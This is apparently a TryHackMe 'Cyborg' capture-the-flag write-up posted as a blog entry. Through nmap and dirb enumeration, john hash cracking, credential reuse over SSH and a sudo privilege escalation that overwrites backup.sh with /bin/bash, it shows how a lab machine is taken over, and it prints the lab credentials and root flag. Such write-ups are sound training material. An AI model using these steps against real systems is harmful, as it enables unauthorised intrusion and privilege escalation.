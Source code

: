 ```yaml
---
published: true
layout: post
title: THM-Writeups_Cyborg
---
```

![]({{site.baseurl}}/images/Writeups/writeups-cyborg.jpeg)

###### A box involving encrypted archives, source code analysis and more. 

---

#### Let's use nmap to check the machine's ports.

```
─[✗]─[aj-tap@parrot]─[~]
└──╼ $sudo nmap -sV -sC -O -T4 -n -Pn -p- -oA fullfastscan 10.10.125.131
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-06 21:06 +08
Nmap scan report for 10.10.125.131
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=22%CT=1%CU=39276%PV=Y%DS=4%DC=I%G=Y%TM=6367B20
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.88 seconds
```
#### There are two open ports. SSH is listening on Port 22, while HTTP is listening on Port 80. We can verify this by grabbing the banner with netcat on port 22 and running whatweb on port 80.

```
┌─[✗]─[aj-tap@parrot]─[~]
└──╼ $nc 10.10.125.131 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
```

```
┌─[aj-tap@parrot]─[~]
└──╼ $whatweb 10.10.125.131 
http://10.10.125.131 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.125.131], Title[Apache2 Ubuntu Default Page: It works]
```

---

#### Let's look into the web application. We discovered that the root url contains a default Apache web page. Further investigation revealed a file in /etc/squid/squid.conf and etc/squid/passwd. It appears to be a squid proxy server that has been incorrectly configured.

### /etc/squid/squid.conf Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-1.png)

### /etc/squid/passwd Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-2.png)

#### Let's use the dirb tool to discover the site's hidden directories.
```
┌─[✗]─[aj-tap@parrot]─[~/Desktop]
└──╼ $dirb http://10.10.125.131/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Nov  6 21:27:34 2022
URL_BASE: http://10.10.125.131/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.125.131/ ----
	==> DIRECTORY: http://10.10.125.131/admin/    
```
### /admin Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-3.png)
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-4.png)

We just discovered the admin page. Based on the conversation, Alex set up a squid proxy, but due to a lack of knowledge of the technology, this results in a misconfiguration, which leads to an information disclosure. We found out before that the password hash is located on /squid/passwd. The admin page also includes an archive.tar file. 

![]({{site.baseurl}}/images/Writeups/writeups-cyborg-5.png)

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cat README 
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```
#### Based on the README file, these are encrypted backup files used by the borg tool, which is a deduplicating backup program. We can simply install borgback using apt package manager.
```
[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $sudo apt install borgbackup
```
#### https://borgbackup.readthedocs.io/en/stable/installation.html#distribution-package
```
─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg list .
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 22:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```
#### Using borgbackup list flag, it gaves us contents of the repository which is a encrypted music_archive. We already obtain the hash password of music_archive before. Let's crack it using john. 

```
─[aj-tap@parrot]─[~/Desktop]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hashpass.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:00 DONE (2022-11-06 21:33) 2.380g/s 93257p/s 93257c/s 93257C/s 091983..lilica
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

#### We recover the password from the hash. Let's supply this to borgbackup, then unpack the music archive and examine its contents.

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $mkdir unpacked_backup
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg mount . unpacked_backup/
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cd unpacked_backup/
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $tree 
.
└── music_archive
    └── home
        └── alex
            ├── Desktop
            │   └── secret.txt
            ├── Documents
            │   └── note.txt
            ├── Downloads
            ├── Music
            ├── Pictures
            ├── Public
            ├── Templates
            └── Videos

11 directories, 2 files
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Desktop/secret.txt 
shoutout to all the people who have gotten to this stage whoop whoop!"
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Documents/note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3

```

#### We simply obtained Alex's password from the note.txt file. Let's use this credential to log in to the machine's ssh.
```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
#### We found out that we can sudo backup.sh. Using this file, we can elavate our user account to root account. First, change the file permissions to read and write, and then add a script that invokes the bash program.
```
alex@ubuntu:~$ chmod 777 /etc/mp3backups/backup.sh 
alex@ubuntu:~$ echo "/bin/bash" > /etc/mp3backups/backup.sh 
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh 
root@ubuntu:~# cat /root/root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

